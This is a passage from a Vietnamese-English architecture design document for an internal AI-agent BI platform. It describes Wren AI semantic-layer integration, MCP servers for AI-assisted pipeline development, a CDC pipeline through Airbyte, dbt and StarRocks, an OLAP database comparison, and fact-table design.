        MDL["MDL Store<br/>(Modeling Definition Language)"]
    end

    subgraph "Data Layer"
        SR["🗄️ StarRocks<br/>MySQL Protocol :9030"]
    end

    PLANNER --> |"Intent: SQL_QUERY"| SQL_AGENT
    SQL_AGENT --> |"POST /v1/ask<br/>{question, mdl_hash}"| WREN_API
    WREN_API --> WREN_AI_SVC
    WREN_AI_SVC --> |"NL → SQL via MDL context"| WREN_ENGINE
    WREN_ENGINE --> |"MySQL protocol"| SR
    WREN_API --> |"Response:<br/>{sql, data, columns}"| SQL_AGENT

    MDL --> WREN_ENGINE
    MDL --> WREN_AI_SVC

    style WREN_API fill:#059669,stroke:#333,color:#fff
    style SR fill:#87ceeb,stroke:#333,color:#333
```

#### 4.4.2. Connection Configuration

**Wren AI K8s Deployment Config** (cần tạo):
- `wren-engine`: Connect StarRocks qua MySQL protocol (host: `starrocks-fe:9030`, user: `wren_readonly`, DB: `analytics`). Internal network only
- `wren-ai-service`: LLM provider (OpenAI/Anthropic), model `gpt-4o`, connect wren-engine qua port 8080. API endpoint `:3000`

#### 4.4.3. LangGraph → Wren AI API Flow

**`WrenAIClient`** (Python, cần implement):
- `ask(question)` → POST `/v1/ask` → nhận SQL + kết quả (Wren AI tự map business terms → SQL qua MDL)
- `get_sql_only(question)` → POST `/v1/ask` với `dry_run=True` → chỉ lấy generated SQL (không execute)
- `health_check()` → GET `/health`, timeout 2s

#### 4.4.4. MDL Maintenance Workflow — Sync Với dbt Models

> [!WARNING]
> **MDL phải luôn đồng bộ với dbt models.** Nếu dbt thêm/xóa/đổi tên column mà MDL không cập nhật → Wren AI generate SQL sai.

| Trigger | Action | Automation Level | Owner |
|:--------|:-------|:----------------|:------|
| **dbt model thêm column mới** | Cập nhật MDL: thêm column description | 🟡 Semi-auto: script detect schema changes, tạo PR cho review | Data Engineer |
| **dbt model đổi tên table** | Cập nhật MDL: sửa `table_ref` | 🟡 Semi-auto: CI check MDL references vs dbt manifest | Data Engineer |
| **Business metric thay đổi** | Cập nhật MDL: sửa metric expression | 🔴 Manual: RFC → PR → Review → Deploy (xem Change Control Process bên dưới) | Data Team Lead + Domain Owner |
| **Wren AI MDL deploy** | Hot-reload hoặc blue/green deploy (xem Versioning Strategy bên dưới) | 🟢 Auto: Dagster trigger after MDL file change | DevOps |

**MDL Change Control Process:**

> [!CAUTION]
> MDL là "single source of truth" cho metric definitions. Thay đổi MDL sai có thể làm toàn bộ NL→SQL generate sai cho 300-500 users.

1. **RFC (Request for Change)**: Tạo PR trên Git mô tả thay đổi metric definition
2. **Review**: Data Team Lead + Finance/domain owner approve
3. **Staging deploy**: Deploy MDL mới lên Wren AI staging instance → chạy bộ test NL queries canonical (50 câu chuẩn) → verify accuracy
4. **Production deploy**: Merge PR → Dagster trigger MDL deploy → notify tất cả dashboard owners
5. **Rollback**: `git checkout <prev-tag> -- mdl.yaml && kubectl rollout restart wren-ai`

**MDL Versioning Strategy:**

| Aspect | Strategy |
|:-------|:---------|
| **Version control** | Git-versioned YAML + Git tag cho mỗi production deploy (e.g., `mdl-v1.2.0`) |
| **Blue/Green deploy** | Giữ `MDL_v1` (production) và `MDL_v2` (staging). Switch traffic khi validated |
| **Pre-deploy validation** | Automated test: 50 canonical NL queries → compare SQL output vs expected |
| **Zero-downtime reload** | Wren AI hot-reload MDL config (nếu supported), hoặc rolling restart K8s pods |
| **Rollback script** | `git checkout <prev-tag> -- mdl.yaml && kubectl rollout restart wren-ai` — RTO < 5 phút |

**`validate_wren_mdl`** (Dagster asset, chạy sau mỗi dbt run): Load dbt manifest + Wren MDL config → so sánh `table_ref` trong MDL vs dbt nodes → nếu mismatch → log warning + Slack alert

#### 4.4.5. Fallback Khi Wren AI Không Khả Dụng

| Scenario | Fallback | Accuracy Impact | User Notification |
|:---------|:---------|:---------------|:-----------------|
| **Wren AI service down** | LangGraph SQL Agent generate SQL trực tiếp (dùng schema context từ ChromaDB RAG) | ⚠️ Giảm ~20% accuracy (không có MDL semantic mapping) | "⚠️ Semantic layer tạm không khả dụng. Kết quả có thể kém chính xác hơn." |
| **Wren AI timeout (> 10s)** | Retry 1 lần, nếu vẫn timeout → fallback to direct SQL | ⚠️ Giảm accuracy | "⏱️ Đang xử lý lâu hơn bình thường..." |
| **MDL không có metric matching** | Wren AI trả "unknown metric" → Agent tự generate SQL + ask user confirm | ⚠️ Cần user validation | "Tôi không tìm thấy metric '{X}' trong hệ thống. Ý bạn là...?" |

**`ResilientSQLAgent`** (cần implement): Try Wren AI first (timeout 10s) → nếu fail → fallback to direct SQL generation via LLM + ChromaDB RAG schema context. Fallback kèm system note cảnh báo "semantic layer unavailable"

### 4.5. Kiến Trúc End-to-End (Data Pipeline Integration)


```mermaid
graph TD
    subgraph "Production Databases (OLTP)"
        P1["MongoDB<br/>(Primary — ~95% volume, 2TB+)"]
        P2["MySQL<br/>(Legacy — ~5% volume)"]
    end

    subgraph "Data Pipeline"
        AIR["Airbyte<br/>(CDC Ingestion)"]
        DBT["dbt Core<br/>(Transform)"]
        DAG["Dagster<br/>(Orchestration)"]
    end

    subgraph "Analytical Store (OLAP)"
        CH["StarRocks<br/>(MPP, ≥3 BE nodes)"]
    end

    subgraph "AI Agent BI"
        WREN["Wren AI<br/>(Semantic Layer)"]
        LG["LangGraph<br/>(Agent Orchestration)"]
        SANDBOX["K8s Pod Sandbox<br/>(Python Execution)"]
    end

    subgraph "Frontend"
        UI["Next.js<br/>(Chat + Dashboard)"]
    end

    subgraph "Supporting"
        LANG["Langfuse<br/>(Observability)"]
        AUTH["Better Auth<br/>(IAM)"]
        VDB["ChromaDB<br/>(Vector Store)"]
    end

    P1 --> |"Change Streams"| AIR
    P2 --> |"Binlog CDC"| AIR
    AIR --> CH
    DAG --> AIR
    DAG --> DBT
    DBT --> CH
    CH --> WREN
    WREN --> LG
    LG --> SANDBOX
    LG --> UI
    LG --> LANG
    LG --> VDB
    UI --> AUTH
```

---

### 4.6. MCP Integration Strategy — AI-Assisted Pipeline Development

> [!IMPORTANT]
> **MCP (Model Context Protocol)** là open standard cho phép AI agents kết nối trực tiếp với tools/services. **Tất cả components chính trong hệ thống đều có MCP server** — đây là lợi thế cạnh tranh lớn: AI không chỉ phân tích data cho end user (UC1-UC4) mà còn **hỗ trợ data team phát triển và vận hành pipeline** hiệu quả hơn.

#### 4.6.1. MCP Server Availability — Toàn Bộ Components

| Component | MCP Server | Maturity | Key Capabilities | Impact cho Pipeline Dev |
|:----------|:----------|:---------|:-----------------|:----------------------|
| **dbt Core** | ✅ `dbt-mcp` (official, dbt Labs) | 🟢 Production-ready | CLI execution (run/test/compile), manifest metadata, model discovery, SQL generation, lineage | ⭐ **Critical**: AI viết dbt models, chạy tests, fix failing models, generate docs tự động |
| **Airbyte** | ✅ `airbyte-mcp` (official, PyAirbyte) | 🟡 Stable (experimental label) | List connectors, validate config, run sync, monitor jobs, troubleshoot errors | ⭐ **Critical**: AI setup CDC connectors, diagnose sync failures, optimize sync schedules |
| **StarRocks** | ✅ `starrocks-mcp` (official, CelerData) | 🟢 Production-ready | SQL execution, schema discovery, table overview, system monitoring, performance analysis | ⭐ **Critical**: AI explore schema, optimize queries, create MVs, monitor cluster health |
| **Wren AI** | ✅ Native MCP Server (built-in) | 🟢 Production-ready | NL→SQL via MDL, semantic query, business metrics, data modeling | ⭐ **Critical**: AI query data qua semantic layer, maintain MDL definitions |
| **Dagster** | ✅ `dagster-mcp` (official + community) | 🟡 Stable | Asset management, job control (launch/terminate), run monitoring, log inspection | 🟢 **High**: AI trigger pipelines, debug failed runs, monitor asset freshness |
| **PostgreSQL** | ✅ Multiple implementations | 🟢 Production-ready | Schema introspection, SQL execution, index tuning, health monitoring | 🟢 **High**: AI manage metadata schema, optimize queries, audit analysis |
| **Langfuse** | ✅ Native MCP Server (built-in) | 🟢 Production-ready | Prompt management (CRUD), trace analysis, cost tracking | 🟡 **Medium**: AI manage LLM prompts, analyze trace patterns |
| **MinIO** | ✅ `minio-mcp` (official) | 🟡 Tech Preview | Bucket/object management, file upload/download, cluster monitoring | 🟡 **Medium**: AI manage file storage, analyze uploaded artifacts |
| **Redis** | ⚠️ Community MCP servers | 🟡 Community | Key-value operations, cache inspection, memory analysis | 🟡 **Medium**: AI inspect cache hit/miss patterns, tune TTL |
| **Kubernetes** | ✅ `kubernetes-mcp` (community) | 🟡 Community | Pod management, deployment status, log retrieval, resource monitoring | 🟡 **Medium**: AI monitor K8s Pod Sandbox, check pod health |

> [!TIP]
> **9/10 components có official MCP server** — coverage gần như 100%. Đây là unique advantage cho "AI builds AI BI" approach (team size = AI-first).

#### 4.6.2. MCP Integration Architecture — AI Dev Agent


```mermaid
graph TD
    subgraph "AI Dev Agent (Cursor / Claude Code)"
        DEV["🧑‍💻 Data Engineer<br/>(hoặc AI Agent tự động)"]
    end

    subgraph "MCP Servers Layer"
        MCP_DBT["📦 dbt MCP<br/>models, tests, lineage"]
        MCP_AIR["🔄 Airbyte MCP<br/>connectors, sync, CDC"]
        MCP_SR["🗄️ StarRocks MCP<br/>SQL, schema, MVs"]
        MCP_WREN["🗣️ Wren AI MCP<br/>semantic layer, MDL"]
        MCP_DAG["⏰ Dagster MCP<br/>jobs, assets, runs"]
        MCP_PG["🐘 PostgreSQL MCP<br/>metadata, audit"]
        MCP_LANG["📊 Langfuse MCP<br/>prompts, traces"]
    end

    subgraph "Infrastructure"
        SR["StarRocks Cluster"]
        PG["PostgreSQL"]
        AIRBYTE["Airbyte"]
        DAGSTER["Dagster"]
        WREN["Wren AI Engine"]
    end

    DEV --> MCP_DBT
    DEV --> MCP_AIR
    DEV --> MCP_SR
    DEV --> MCP_WREN
    DEV --> MCP_DAG
    DEV --> MCP_PG
    DEV --> MCP_LANG

    MCP_DBT --> SR
    MCP_AIR --> AIRBYTE
    MCP_SR --> SR
    MCP_WREN --> WREN
    MCP_DAG --> DAGSTER
    MCP_PG --> PG
    MCP_LANG --> |"traces"| PG

    style DEV fill:#6366F1,stroke:#333,color:#fff
    style MCP_DBT fill:#059669,stroke:#333,color:#fff
    style MCP_AIR fill:#059669,stroke:#333,color:#fff
    style MCP_SR fill:#059669,stroke:#333,color:#fff
    style MCP_WREN fill:#059669,stroke:#333,color:#fff
    style MCP_DAG fill:#059669,stroke:#333,color:#fff
    style MCP_PG fill:#059669,stroke:#333,color:#fff
    style MCP_LANG fill:#059669,stroke:#333,color:#fff
```

#### 4.6.3. Concrete Use Cases — AI-Assisted Pipeline Development

##### UC-Dev-1: AI Tự Setup CDC Pipeline (Airbyte + dbt + Dagster)

```
👤 "Setup CDC pipeline cho collection 'transactions' từ MongoDB production sang StarRocks"

🤖 AI Agent (qua MCP):
   1. [Airbyte MCP] → List available connectors → chọn MongoDB CDC connector
   2. [Airbyte MCP] → Validate connection config (replica set, Change Streams)
   3. [Airbyte MCP] → Create source + destination + connection (sync mode: CDC)
   4. [Airbyte MCP] → Run initial sync, monitor progress
   5. [StarRocks MCP] → Verify _airbyte_raw.transactions table created, inspect schema
   6. [dbt MCP] → Generate raw_transactions.sql model (flatten MongoDB nested docs)
   7. [dbt MCP] → Generate stg_transactions.sql model (clean, type cast, PII mask)
   8. [dbt MCP] → Run dbt test → validate data quality
   9. [Dagster MCP] → Create/update Dagster asset definitions for new models
   10. [Dagster MCP] → Launch pipeline run, monitor completion
```

##### UC-Dev-2: AI Debug Failed Pipeline Run

```
👤 "Pipeline run failed lúc 3AM — investigate và fix"

🤖 AI Agent (qua MCP):
   1. [Dagster MCP] → Get recent failed runs → identify failed asset
   2. [Dagster MCP] → Inspect run logs → find error message
   3. [dbt MCP] → Compile failing model → identify SQL error
   4. [StarRocks MCP] → Execute EXPLAIN on problematic query → find bottleneck
   5. [StarRocks MCP] → Check table schema → detect schema drift
   6. [Airbyte MCP] → Check last sync status → verify data freshness
   7. [dbt MCP] → Fix model SQL → run dbt test → validate fix
   8. [Dagster MCP] → Re-launch failed run → monitor completion
   9. [Langfuse MCP] → Log incident for tracking
```

##### UC-Dev-3: AI Tạo & Tối Ưu Materialized Views

```
👤 "Dashboard 'Executive Overview' bị chậm. Tạo MV để tăng tốc"

🤖 AI Agent (qua MCP):
   1. [StarRocks MCP] → Analyze slow queries (db_overview + query history)
   2. [StarRocks MCP] → Identify common GROUP BY patterns
   3. [StarRocks MCP] → Generate CREATE MATERIALIZED VIEW SQL
   4. [StarRocks MCP] → Execute DDL, verify MV created
   5. [StarRocks MCP] → Re-run original query → confirm auto-rewrite + speedup
   6. [dbt MCP] → Update dbt docs to reference new MV
   7. [Wren AI MCP] → Verify MDL still maps correctly to base tables
```

##### UC-Dev-4: AI Maintain Wren AI MDL (Semantic Layer Sync)

```
👤 "dbt vừa thêm 3 columns mới cho fct_sales_daily. Update MDL cho Wren AI"

🤖 AI Agent (qua MCP):
   1. [dbt MCP] → Get latest manifest → list new columns added
   2. [StarRocks MCP] → DESCRIBE fct_sales_daily → verify column types
   3. [Wren AI MCP] → Get current MDL → identify missing columns
   4. [Wren AI MCP] → Generate MDL update (column descriptions, business terms VN/EN)
   5. [Wren AI MCP] → Deploy updated MDL
   6. [Wren AI MCP] → Test: "Doanh thu ròng theo khu vực" → verify NL→SQL works
```

#### 4.6.4. Adoption Priority & Deployment

| Phase | MCP Servers | Mục tiêu | KPI |
|:------|:-----------|:---------|:----|
| **Phase 0** (cùng pipeline setup) | **dbt MCP** + **StarRocks MCP** + **Airbyte MCP** | AI viết dbt models, setup CDC, explore schema | 80% dbt models generated by AI |
| **Phase 1** (cùng agent setup) | + **Wren AI MCP** + **Dagster MCP** | AI maintain MDL, debug pipeline failures | MDL sync accuracy > 95%, MTTR < 30 phút |
| **Phase 2** (optimization) | + **PostgreSQL MCP** + **Langfuse MCP** | AI optimize metadata, manage prompts | Query performance ↑ 30%, prompt version control |
| **Phase 3** (full automation) | + **MinIO MCP** + **Redis MCP** + **K8s MCP** | AI manage full infrastructure | Autonomous pipeline ops cho routine tasks |

#### 4.6.5. MCP Server Configuration (Cursor / Claude Code)

**MCP Server Config** (`.cursor/mcp.json` hoặc `claude_desktop_config.json` — cần tạo):

| MCP Server | Command | Key Env Vars |
|:-----------|:--------|:-------------|
| **dbt** | `uvx dbt-mcp` | `DBT_PROJECT_DIR`, `DBT_PROFILES_DIR` |
| **airbyte** | `uvx airbyte-mcp` | `AIRBYTE_API_KEY` |
| **starrocks** | `uvx starrocks-mcp` | `STARROCKS_HOST=starrocks-fe`, PORT `9030`, DB `analytics` |
| **wren-ai** | HTTP `http://localhost:9000/mcp` | — |
| **dagster** | `uvx dagster-mcp` | `DAGSTER_GRAPHQL_URL` |
| **postgresql** | `npx @modelcontextprotocol/server-postgres` | `DATABASE_URL` |
| **langfuse** | HTTP `http://localhost:3001/api/public/mcp` | `LANGFUSE_API_KEY` (Basic auth) |

> [!CAUTION]
> **Security**: MCP servers cho development/operations ONLY — KHÔNG expose MCP servers cho end users. Credentials được quản lý qua K8s Secrets / environment variables. MCP servers chạy trên internal network, không public-facing.

---

## 5. Data Platform

### 5.1. Data Pipeline Architecture: OLTP → OLAP

> [!CAUTION]
> **Vấn đề cốt lõi**: Database hiện tại đang phục vụ vận hành (OLTP — transactional workload). Query trực tiếp cho analytics sẽ:
> - **Gây lock contention** → ảnh hưởng performance production
> - **Schema không tối ưu** cho aggregate queries (row-based vs columnar)
> - **Thiếu historical data** — OLTP thường chỉ giữ current state
> - **Không có pre-computed metrics** → mỗi query phải tính lại từ đầu


#### 5.1.1. Mô Hình Pipeline Đề Xuất: ELT + CDC


```mermaid
graph TD
    subgraph "OLTP Sources (Production — Supermarket Chain)"
        SRC1["MongoDB<br/>(Primary — POS, Inventory, Finance, Customer, Loyalty — ~95%, 2TB+)"]
        SRC2["MySQL<br/>(Legacy systems — ~5%)"]
        SRC3["3rd Party APIs<br/>(CRM, ERP, etc.)"]
    end

    subgraph "Ingestion Layer"
        CDC["Airbyte (Self-hosted)<br/>CDC via Debezium"]
        CDC --> |"Incremental Sync<br/>Every 5-15 min"| STAGE["Staging Area"]
    end

    subgraph "Transformation Layer"
        DBT["dbt Core"]
        DBT --> |"Materialized Models"| MART_RAW["Raw Layer<br/>(1:1 mirror of source)"]
        DBT --> |"Business Logic"| MART_CLEAN["Staging Layer<br/>(Cleaned & Joined)"]
        DBT --> |"Pre-computed KPIs"| MART_BIZ["Marts Layer<br/>(Business-ready)"]
    end

    subgraph "Analytical Database (OLAP)"
        OLAP["StarRocks"]
        OLAP --> VIEWS["Materialized Views<br/>(Pre-aggregated)"]
    end

    subgraph "AI Agent BI Layer"
        SEM["Wren AI<br/>Semantic Layer (MDL)"]
        AGENT["LangGraph<br/>AI Agent"]
        SEM --> AGENT
    end

    subgraph "Consumption"
        CHAT["Chat Interface<br/>(Next.js)"]
        DASH["Dashboards"]
        REPORT["Scheduled Reports"]
    end

    SRC1 --> |"Change Streams (primary)"| CDC
    SRC2 --> |"Binlog CDC"| CDC
    SRC3 --> |"API Polling"| CDC
    
    STAGE --> DBT
    MART_BIZ --> OLAP
    MART_CLEAN --> OLAP
    OLAP --> SEM
    AGENT --> CHAT
    AGENT --> DASH
    AGENT --> REPORT
```


#### 5.1.2. Tại Sao Chọn Mô Hình Này?

| Approach | Latency | Complexity | Phù hợp khi | ❌ Không phù hợp khi |
|:---------|:--------|:-----------|:------------|:-------------------|
| **Direct Query OLTP** | Real-time | Thấp | Data nhỏ, ít user | Production DB bị ảnh hưởng |
| **Batch ETL (nightly)** | 24h+ | Trung bình | Report cuối ngày | Cần data gần real-time |
| ✅ **CDC + ELT (chọn)** | 5-15 phút | Trung bình | Analytics nội bộ, near real-time | Cần sub-second latency |
| **Streaming (Kafka)** | Sub-second | Cao | Trading, fraud detection | Over-engineering cho BI nội bộ |

> [!TIP]
> **CDC + ELT là sweet spot** cho use case nội bộ vì:
> - **Near real-time** (5-15 phút delay) — đủ cho business analytics
> - **Zero impact lên production** — đọc từ Change Streams (MongoDB) / Binlog (MySQL), không query DB
> - **Transformation tại OLAP** — tận dụng sức mạnh columnar engine
> - **Operational simplicity** — Airbyte UI quản lý, dbt version-controlled


#### 5.1.3. Chi Tiết Từng Layer

##### 📥 Layer 1: Ingestion — Airbyte (Self-hosted)

**Tại sao Airbyte?**
- 600+ connectors sẵn có (MongoDB, MySQL, PostgreSQL, REST APIs, SaaS...)
- Dùng **Debezium internally** cho CDC — không cần manage Kafka riêng
- UI trực quan để setup & monitor pipelines
- Self-hosted (K8s Helm chart hoặc Docker) — data không ra ngoài

**Cấu hình CDC cho Production DB:**

| Source DB | CDC Method | Cấu hình cần thiết | Impact lên Prod |
|:----------|:-----------|:-------------------|:---------------|
| **MongoDB** (primary, ~95%) | **Change Streams** | Replica Set required (đã có sẵn). Airbyte dùng MongoDB CDC connector | ≈ 0% (oplog tailing) |
| MySQL (~5%) | Binlog | `binlog_format=ROW`, user có REPLICATION privilege | ≈ 0% (đọc binlog) |

**Sync Strategy:**
- **Initial Sync**: Full snapshot lần đầu (chạy off-peak hours)
- **Incremental Sync**: Chỉ sync rows thay đổi, mỗi 5-15 phút
- **Sync Mode**: `Incremental - Append + Deduped` (update & delete được phản ánh)

##### 🔄 Layer 2: Transformation — dbt Core

**Tại sao dbt?**
- SQL-based transformation — dễ hiểu, version-controlled (Git)
- **Semantic Layer (MetricFlow)** — define metrics 1 lần, dùng ở mọi nơi
- **Testing built-in** — validate data quality tự động
- **MCP Server support** — AI agents có thể query dbt metadata

> [!WARNING]
> **MongoDB → StarRocks transformation note**: MongoDB documents là nested/denormalized (arrays, embedded objects). dbt Raw layer cần **flatten** nested structures thành relational tables. Ví dụ: `transactions.items[]` (array trong MongoDB) → `raw_transaction_items` (separate table trong StarRocks, 1 row per item). Airbyte hỗ trợ auto-flatten khi sync MongoDB → SQL destination.

**Cấu trúc dbt Project:**

```
models/
├── raw/                    # 1:1 mirror từ source (auto-generated)
│   ├── raw_orders.sql
│   ├── raw_customers.sql
│   └── raw_products.sql
├── staging/                # Cleaned, renamed, typed
│   ├── stg_orders.sql      # JOIN + filter + cast
│   ├── stg_customers.sql
│   └── stg_products.sql
├── marts/                  # Business-ready aggregates
│   ├── finance/
│   │   ├── fct_revenue.sql        # Revenue by day/product/region
│   │   └── fct_monthly_summary.sql
│   ├── sales/
│   │   ├── fct_orders.sql
│   │   └── dim_customers.sql
│   └── operations/
│       ├── fct_delivery.sql
│       └── fct_inventory.sql
└── metrics/                # MetricFlow definitions
    ├── revenue.yml         # "Revenue = SUM(order_total) WHERE status='completed'"
    └── active_users.yml    # "Active Users = COUNT(DISTINCT user_id) WHERE last_login > 30d"
```

**Ý nghĩa từng layer:**

| Layer | Mục đích | Ví dụ |
|:------|:---------|:------|
| **Raw** | Mirror 1:1 từ source, không transform | `raw_orders` = table orders trong Production |
| **Staging** | Clean, rename, cast types, join | `stg_orders` = orders + customers + products joined |
| **Marts** | Pre-computed KPIs, business-ready | `fct_revenue` = daily revenue by product category |
| **Metrics** | Semantic definitions | "Revenue" luôn = `SUM(order_total) WHERE status='completed'` |

##### 🏗️ Layer 3: Analytical Database — ClickHouse vs StarRocks vs Apache Doris

| Tiêu chí | **ClickHouse** | **StarRocks** | **Apache Doris** |
|:---------|:--------------|:-------------|:----------------|
| **Architecture** | Columnar, vectorized | MPP, vectorized, CBO | MPP, vectorized |
| **Primary Strength** | Scan cực nhanh trên flat table | Complex JOINs + high concurrency | Balance JOIN + real-time |
| **JOIN Performance** | ⚠️ Yếu — cần denormalize | ✅ **Vượt trội** — CBO tối ưu join order | ✅ Tốt |
| **Concurrency** | ⚠️ Giảm P95 khi >100 users | ✅ **1000+ QPS ổn định** | ✅ Tốt (interactive dashboard) |
| **SQL Compatibility** | Non-standard SQL | ✅ **MySQL-compatible** | ✅ MySQL-compatible |
| **CDC Upsert/Delete** | ⚠️ Append-heavy, merge bất đồng bộ | ✅ **Native Primary Key table** | ✅ Unique Key model |
| **Real-time Ingestion** | MergeTree engine | Routine Load + Flink CDC | Stream Load |
| **Data Lakehouse** | ⚠️ Limited | ✅ Iceberg, Hudi, Delta Lake | ✅ Hudi, Iceberg |
| **Materialized Views** | ✅ Mạnh | ✅ **Auto query rewrite** | ✅ Mạnh |
| **Deployment** | ✅ Docker, K8s | ✅ Docker, K8s | ✅ Docker, K8s |
| **Community** | 40K+ stars, very mature | 10K+ stars, growing fast | 13K+ stars, growing |
| **Airbyte Connector** | ✅ Native | ✅ Native | ✅ Native |
| **dbt Adapter** | ✅ `dbt-clickhouse` | ✅ `dbt-starrocks` | ✅ `dbt-doris` |
| **Wren AI Support** | ✅ Native | ✅ Via dbt + MySQL protocol | ✅ Via MySQL protocol |
| **Shared-Data Mode** | ❌ | ✅ **Storage-compute tách rời** | ❌ |

##### Đánh Giá Cho Use Case: Internal BI từ OLTP Database

> [!IMPORTANT]
> **Kết luận: StarRocks là lựa chọn tối ưu hơn ClickHouse** cho use case này. Lý do:

| Yếu tố quyết định | ClickHouse | StarRocks | Tại sao quan trọng? |
|:------------------|:-----------|:----------|:-------------------|
| **Schema từ OLTP** | ❌ Cần denormalize toàn bộ | ✅ **Query trực tiếp normalized schema** | OLTP data có star/snowflake schema → StarRocks handle native, ClickHouse cần ETL thêm |
| **CDC Upsert** | ⚠️ Background merge, không deterministic | ✅ **Primary Key table, upsert real-time** | CDC từ production sẽ có UPDATE/DELETE → StarRocks xử lý tốt hơn nhiều |
| **Multi-user nội bộ** | ⚠️ P95 tăng khi concurrent cao | ✅ **Stable latency ở 1000+ QPS** | 300-500 nhân viên query đồng thời → StarRocks ổn định hơn |
| **MySQL compatibility** | ❌ SQL khác biệt | ✅ **MySQL protocol native** | Team đã quen MySQL → learning curve thấp, tool ecosystem rộng |
| **Complex JOINs** | ⚠️ 3-5x chậm hơn | ✅ **CBO tối ưu, TPC-H vượt trội** | Analytics query luôn JOIN nhiều bảng (orders + customers + products) |
| **Future Lakehouse** | ⚠️ | ✅ **Query Iceberg/Hudi trực tiếp** | Mở rộng tương lai không cần migrate data |

##### Khi nào KHÔNG chọn StarRocks?

| Scenario | Nên chọn ClickHouse thay vì |
|:---------|:---------------------------|
| Data chủ yếu là **logs/events** append-only | ClickHouse scan nhanh hơn trên flat table |
| Team đã có kinh nghiệm ClickHouse | Không cần học mới |
| Chỉ cần **1-2 users** query | ClickHouse đủ dùng, đơn giản hơn |

**Tại sao KHÔNG dùng DuckDB?**
DuckDB rất tốt cho single-user analysis nhưng **không phù hợp** cho multi-user internal platform vì nó là embedded database (in-process), không hỗ trợ concurrent access từ nhiều session.

#### 5.1.4. Data Freshness SLA

| Data Type | Freshness Target | Đạt được bằng | Đo lường |
|:----------|:----------------|:-------------|:---------|
| **Orders / Transactions** | ≤ 15 phút | CDC sync mỗi 5 phút | Airbyte job metrics |
| **Customer / Product Master** | ≤ 1 giờ | CDC sync mỗi 15 phút | Airbyte job metrics |
| **Pre-computed KPIs** | ≤ 30 phút | dbt run mỗi 15 phút | dbt freshness tests |
| **3rd Party API data** | ≤ 4 giờ | API polling via Airbyte | Airbyte job metrics |

#### 5.1.5. Pipeline Orchestration


```mermaid
graph TD
    SCHEDULE["⏰ Dagster<br/>Scheduler"] --> SYNC["1️⃣ Airbyte Sync<br/>(CDC from all sources)"]
    SYNC --> |"Trigger on completion"| DBT_RUN["2️⃣ dbt run<br/>(Transform in StarRocks)"]
    DBT_RUN --> DBT_TEST["3️⃣ dbt test<br/>(Data quality checks)"]
    DBT_TEST --> |"Pass ✅"| NOTIFY_OK["Notify: Data Ready"]
    DBT_TEST --> |"Fail ❌"| ALERT["🚨 Alert: Data Quality Issue"]
    NOTIFY_OK --> WREN["4️⃣ Wren AI<br/>Semantic Layer Refresh"]
    WREN --> READY["✅ AI Agent BI Ready<br/>to Answer Queries"]
```

**Cadence mặc định:**
- Pipeline chạy **mỗi 15 phút** (configurable)
- dbt tests chạy sau mỗi transform
- Alert qua Slack/Email nếu pipeline fail


#### 5.1.6. Pipeline Tech Stack Bổ Sung

| Component | Tool | Vai trò | Chi phí/tháng |
|:----------|:-----|:--------|:-------------|
| **Data Ingestion** | Airbyte (self-hosted) | CDC + API connectors | $0 (open-source) |
| **OLAP Database** | StarRocks (≥3 BE nodes, 16vCPU/64GB each) | MPP analytics engine cho 2TB+ data | $0 (on-premise K8s, hardware đã có) |
| **Transformation** | dbt Core | SQL models + semantic layer | $0 (open-source) |
| **Orchestration** | Dagster | Pipeline scheduling + monitoring | $0 (open-source) |
| **Data Quality** | dbt tests + Great Expectations | Automated data validation | $0 (open-source) |
| **Tổng Pipeline Cost** | — | — | **$0/tháng** (all open-source, on-premise K8s) |

#### 5.1.7. Data Reconciliation — Validation Giữa Source Và OLAP

> [!CAUTION]
> **Vấn đề**: Pipeline OLTP → Airbyte → dbt → StarRocks có nhiều bước. Nếu bất kỳ bước nào mất data hoặc transform sai, kết quả BI sẽ **sai lệch âm thầm** — không ai biết cho tới khi user phát hiện số liệu bất thường.
>
> **Giải pháp**: Chạy **reconciliation checks tự động** sau mỗi pipeline run, so sánh source vs destination.

**`reconcile_data`** (Dagster asset, chạy sau mỗi dbt run — cần implement):
- **Approach**: So sánh `_airbyte_raw` tables (source-of-truth mirror) vs dbt-transformed tables — cả 2 đều trên StarRocks, tránh kết nối MongoDB production
- **Checks cần tạo**: (1) `orders_row_count`: COUNT `_airbyte_raw_orders` vs `raw_orders` (1 ngày gần nhất); (2) `daily_revenue_sum`: SUM revenue từ `_airbyte_raw_orders` (JSON_VALUE parse) vs `fct_sales_daily`
- **Logic**: Nếu diff > `TOLERANCE_PERCENT` (1%) → log error + Slack alert. Nếu OK → log info

**Reconciliation Schedule:**

| Check | Frequency | Tolerance | Alert Channel |
|:------|:----------|:----------|:-------------|
| **Row count (orders)** | Sau mỗi dbt run (15 phút) | ≤ 1% | Slack #data-alerts |
| **Revenue sum (daily)** | Hàng ngày (8:00 AM) | ≤ 0.1% | Slack + Email to data team |
| **Customer count** | Hàng tuần | ≤ 2% | Slack #data-alerts |
| **Full table row count** | Hàng tuần (Sunday) | ≤ 0.5% | Slack + Email |

### 5.2. Core Fact Table Design (Star Schema)

> **Key Insight**: Thay vì tạo nhiều bảng aggregate, tạo **1 bảng fact ở grain phù hợp** — bất kỳ filter nào cũng có thể tính từ đây.

##### Fact Table: `fct_sales_daily`

**`fct_sales_daily`** (dbt model `models/marts/core/fct_sales_daily.sql` — cần tạo):
- **Grain**: 1 row = 1 ngày × 1 cửa hàng × 1 SKU — "single source of truth" cho MỌI dashboard filter
- **Dimension Keys (FK)**: `date_key` (DATE), `store_key` (INT), `product_key` (INT), `channel_key` (SMALLINT), `segment_key` (SMALLINT)
- **Additive Measures**: `gross_revenue`, `net_revenue`, `discount_amount`, `return_amount`, `cogs`, `gross_profit` (DECIMAL 15,2), `order_count` (INT), `item_quantity` (INT)
- **Semi-Additive**: `customer_hll` (HLL NOT NULL) — HyperLogLog sketch cho distinct customer count. Query: `HLL_UNION_AGG(customer_hll)`. Lý do: SUM(customer_count) cho kết quả SAI khi roll-up (1 khách mua ở 2 store = đếm 2 lần)
- **StarRocks config**: Duplicate Model, PARTITION BY RANGE(date_key) theo tháng, DISTRIBUTED BY HASH(store_key) BUCKETS 16

**Tại sao grain `day × store × SKU`?**

| Grain thấp hơn | Grain này ✅ | Grain cao hơn |
|:----------------|:-------------|:--------------|
| `order_line` (transaction-level) | `day × store × SKU` | `month × region × category` |
| ~100M+ rows/năm | **~5-20M rows/năm** | ~50K rows/năm |
| Quá nhiều rows → query chậm (2TB+ source data) | **Sweet spot**: đủ chi tiết cho mọi filter, đủ nhỏ cho performance. Với 300+ tables, 100+ stores → ~5-20M rows/năm là hợp lý | Mất chi tiết → không drill-down được |
